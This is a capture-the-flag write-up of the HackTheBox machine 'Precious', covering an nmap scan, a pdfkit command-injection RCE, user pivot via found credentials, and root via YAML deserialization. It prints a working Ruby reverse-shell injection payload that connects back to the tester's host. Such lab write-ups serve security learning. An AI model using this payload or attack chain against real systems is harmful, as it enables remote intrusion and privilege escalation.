




# Precious
## Enumeration
### Nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```


- It's service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it



- We see the package and version
  - After a little bit of googling, I got


- We have an RCE 
  - Let's test it



- I set up tcpdump to listen to ICMP
  - And we get a response


- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)


```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - and We get a reverse shell



- Now we need to privesc
  - After running a [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```


- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result


- Let's check the file
  - According to comments it loads the list of dependencies in the ```dependencies.yaml``` and compares to the ones installed
  


- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml


- Check the version


- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` from where we execute the script
  - So we can create ```dependencies.yaml``` anywhere where we have privileges
  - Copy the payload from the links above


- Run the command
  - And we get our flag


